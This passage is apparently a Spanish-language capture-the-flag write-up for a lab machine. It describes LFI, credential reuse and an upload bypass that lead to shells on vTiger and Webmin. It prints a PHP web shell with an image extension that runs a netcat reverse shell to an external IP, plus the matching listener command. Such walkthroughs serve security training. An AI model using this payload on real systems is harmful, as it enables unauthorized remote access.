 ## INTRUSION VTIGER

La segunda intrusión se lleva por medio del ataque por `LFI`, toda vez que, es identificado el servicio `vtiguer` como primera carpeta del payload ejecutado.

Logramos un acceso a un nuevo portal, por lo que vamos a probar las credenciales obtenidas, teniendo total capacidad de navegar en el servicio web.

<p style="text-align: center;">
<img src="/assets/images/beep/05-page.png">
</p>

Realizamos la búsqueda de posibles vías de explotación en el portal, logrando ingresar a los detalles de la organización.

<p style="text-align: center;">
<img src="/assets/images/beep/06-page.png"> 
</p>

En esta sección es posible subir archivos de extensión `JGP`, por lo que se procede a generar una shell en `PHP` de extensión `JGP` de la siguiente manera.

```bash
vim shell.php.jgp
<?php
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 4564 >/tmp/f")
?>
```

Guardamos la shell y subimos el contenido donde se almacena la imagen de la organización, no sin antes ponernos en escucha por el puerto que asignamos en la `shell.php.jgp`.

```bash
nc -lnvp 4564
```

Guardamos el archivo en la web y obtenemos una shell interactiva con el usuario `asterisk`

```bash
sh-3.2$ whoami
asterisk
```

## INTRUSION WEBMIN

Ingresamos al servicio alojado en el puerto `10000` y automáticamente detectamos una extensión `CGI`, lo que presuntamente puede ocasionar un ataque por `shellshock`, en esta ocasión la contraseña funcionó con el usuario `root` así como sucedió en la intrusión por `SSH`, logrando un mayor grado de enumeración de la máquina víctima.

<p style="text-align: center;">
<img src="/assets/images/beep/07-page.png">   
</p> 

Nos ponemos en escucha por medio de un listener.
